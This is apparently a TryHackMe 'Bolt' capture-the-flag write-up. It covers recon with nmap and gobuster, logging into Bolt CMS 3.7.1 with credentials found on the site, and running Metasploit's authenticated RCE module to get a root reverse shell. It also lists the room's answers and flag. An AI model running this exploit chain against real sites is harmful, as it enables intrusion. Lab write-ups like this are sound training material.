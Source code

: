 Bolt Link: https://tryhackme.com/r/room/bolt

Firstly we will start with golden searches because scanning takes a long time.  
nmap -pn -p- -sC -sV (IP) -vvv -oA nmap_full  
![7f8fd8d9db1636cb5773a3c615dca639.png](../../../_resources/7f8fd8d9db1636cb5773a3c615dca639.png)  
with nmap scan. Nmap shows us three ports are open, we don’t any information about ssh, let’s focus on http

Basic Directory Scan, gobuster  
**gobuster di**r -u http://IP -w /usr/share/wordlists/dirb/common.txt

Basic Scan, dirb = We will use these results for web server analysis.  
\*\*dirb http://\*\*IP = We will use these results for web server analysis.

Basic Scan netdiscover  
netdiscover = It is used during penetration tests to quickly identify which devices are  
connected to the network.

Access the website, and we get it.

![d86ec8633640c5434960dde97b7c24a0.png](../../../_resources/d86ec8633640c5434960dde97b7c24a0.png)

let’s explore this website, in the first article we get interesting information, where we get the username.  
![7a04e64f25934c5b44f4b7347e287e63.png](../../../_resources/7a04e64f25934c5b44f4b7347e287e63.png)

The second article shows that we get the password to log in.

![445c5380bdd3d7c1a7cdde7e02182b2c.png](../../../_resources/445c5380bdd3d7c1a7cdde7e02182b2c.png)

Username: bolt  
Password: boltadmin123

I tried to search on Google for the Bolt CMS default login page address.

![fe77bbddd071e948a5fda5849ff37d9a.png](../../../_resources/fe77bbddd071e948a5fda5849ff37d9a.png)

let’s try to access the login page using the username and password that we got earlier.

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="357" loading="lazy" role="presentation" src="../../../_resources/1_fVUJkSUJOoWHPBvq6fCYgg.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

yeah, we’re in :) on the web dashboard we get information about the CMS version of this website.

![86a1ac424936a10bb73d37162145929b.png](../../../_resources/86a1ac424936a10bb73d37162145929b.png)

> What version of the CMS is installed on the server? (Ex: Name 1.1.1)
> 
> Answer : Bolt 3.7.1
> 
> ![583ad5a03ad1b11fd787dc5a8494aa34.png](../../../_resources/583ad5a03ad1b11fd787dc5a8494aa34.png)

![bdcb15c1c273db3e5898fcaf815210c1.png](../../../_resources/bdcb15c1c273db3e5898fcaf815210c1.png)

Look for vulnerabilities in this version of the CMS, and it looks like there are vulnerabilities there.  
![adb5a3e4c65f9159c50d9bdcd37448f8.png](../../../_resources/adb5a3e4c65f9159c50d9bdcd37448f8.png)

![add65453ed9ee01750314246f56c15f7.png](../../../_resources/add65453ed9ee01750314246f56c15f7.png)

![4bab98752da3486ad6bee25ba2fca4d2.png](../../../_resources/4bab98752da3486ad6bee25ba2fca4d2.png)

> There’s an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What’s its EDB-ID?
> 
> Answer: 48296

&nbsp;

Q: Metaspluoi

Answer: exploit/unix/webapp/bolt_authenticated_rce

&nbsp;

let’s try using msfconsole, and look for a module that matches the vulnerability we’ve been looking for before.

just type search bolt --> this command is going to find all macthing bolt exploits.

![75389091e54cd2c174064bc314079858.png](../../../_resources/75389091e54cd2c174064bc314079858.png)

Use the module, and it can be seen that we need a username, password, rhost, and rhost to run this exploit  
![711ae2814373e11b3c88736ad0c21d38.png](../../../_resources/711ae2814373e11b3c88736ad0c21d38.png)

Set username, password, rhost, and rhost with existing information.  
![6477ac5377a349d149d24041775f9076.png](../../../_resources/6477ac5377a349d149d24041775f9076.png)

![183e74dfa3074990213c88ab2bde2297.png](../../../_resources/183e74dfa3074990213c88ab2bde2297.png)

Run the exploit, and boommm. we’re in :)

![d1517757897ff35ed31065d4e1d0f389.png](../../../_resources/d1517757897ff35ed31065d4e1d0f389.png)

Try to see the account that we got, and we have got root access :)

Look for the flag in the machine, and we get it.

1.  way

![e388e707a08ef09dbce8edfe78e1cae3.png](../../../_resources/e388e707a08ef09dbce8edfe78e1cae3.png)

> Look for flag.txt inside the machine.
> 
> Answer: THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}

second way

![37aaa9ac772c1164ee9d824a48d6452e.png](../../../_resources/37aaa9ac772c1164ee9d824a48d6452e.png)

# Conslusion:

msfconsole is a powerful tool for cybersecurity professionals and facilitates tasks such as  
testing attack vectors, finding vulnerabilities, and bypassing security defenses. This tool is used  
by both ethical hackers and malicious actors.  
“msfconsole is a strong tool for cybersecurity experts. It helps test attack methods, find  
security weaknesses, and get around security protections. Both ethical hackers and bad actors  
use this tool.”  
"First I used the 'use' command to select the exploit and then the 'show options' command to  
look for all the options available in the exploit."  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS bolt  
RHOSTS => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST  
10.9.137.76  
LHOST => 10.9.137.76  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD  
boltadmin123  
PASSWORD => boltadmin123  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt  
USERNAME => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LPORT 3344  
LPORT => 3344  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit  
Whoami  
Root  
find / -name 'flag.txt' 2>/dev/null  
/home/flag.txt  
Cat /home/flag.txt  
THM…..  
Shell , enter!  
\[+\] Reverted user profile back to original state.  
id  
uid=0(root) gid=0(root) groups=0(root)  
Now that we have a root shell, we can read the final flag. I searched for the flag and found that it  
was present in the home directory.  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
root@bolt:~/public/files# find / -name flag.txt 2>/dev/null  
find / -name flag.txt 2>/dev/null  
/home/flag.txt  
root@bolt:~/public/files# cat /home/flag.txt  
cat /home/flag.txt  
THM{\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}  
root@bolt:~/public/files#  
OR